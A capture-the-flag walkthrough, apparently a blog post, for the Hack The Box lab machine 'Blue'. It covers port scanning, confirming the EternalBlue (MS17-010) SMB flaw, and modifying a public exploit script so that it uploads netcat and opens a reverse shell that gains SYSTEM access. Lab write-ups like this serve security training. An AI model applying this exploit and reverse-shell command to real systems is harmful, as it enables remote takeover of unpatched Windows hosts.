 ```yaml
---
layout: post
title: Hack the Box - Blue
date: 2020-03-13 16:04:22 +0100
description: Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.
img: blue.png
fig-caption: Blue
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p- -T4 -sV 10.129.112.220
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 18:53 GMT
Nmap scan report for 10.129.112.220
Host is up (0.094s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```
From this we can see that the ports of most interest are 135,139,445. Before attempting to scan shares that might be accessible anonymously a quick vulnerability scan shows that the server is vulnerable to MS17-010, otherwise known as EternalBlue. With the box being named Blue it is safe to assume this is a sensible attack vector.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p139,445 --script vuln 10.129.112.225                                                                                                                                                                                   130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 19:36 GMT
Nmap scan report for 10.129.112.225
Host is up (0.016s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```
Having identified a route forward lets move on to the exploitation phase.
## Foothold
Search on exploitdb for an exploit for this vulnerability we find three to choose from.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ searchsploit eternalblue
----------------------------------------------------------------- --------------------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- --------------------------------
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Ex   | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue'  | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote | windows_x86-64/remote/42030.py
----------------------------------------------------------------- --------------------------------
```
I chose to go with 42315, however it was written in Python 2.7 so to run this on my Kali instance with the least trouble I chose to use a docker container to run it inside.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo docker run -it -v "$(pwd)"/hackthebox/blue:/blue --entrypoint /bin/bash python:2.7.18-stretch
root@79a4e2b0be9a:/# pip install impacket
```
The exploit needs a couple of edits in order to produce a shell. First of all the username needs to be provided which in this case would be "anonymous". Secondly we need to edit the lines in the function "smb_pwn" to execute a reverse shell.
```python
#       print('creating file c:\\pwned.txt on the target')
#       tid2 = smbConn.connectTree('C$')
#       fid2 = smbConn.createFile(tid2, '/pwned.txt')
#       smbConn.closeFile(tid2, fid2)
#       smbConn.disconnectTree(tid2)

        smb_send_file(smbConn, 'nc.exe', 'C', '/nc.exe')
        service_exec(conn, r'cmd /c c:\nc.exe -nv 10.10.14.27 2121 -e cmd.exe')
```
After running this exploit using the following command our netcat listener should receive a shell if it is listening on the same port
```
root@79a4e2b0be9a:/blue# python blue.py 10.129.112.225
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
...
Creating service ANJU.....
Starting service ANJU.....
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/blue]
└─$ nc -nlvp 2121
listening on [any] 2121 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.112.225] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
nt authority\system
```
## Privilege Escalation
As we attained root from this exploit and have access to the root flag, there is no need for privilege escalation
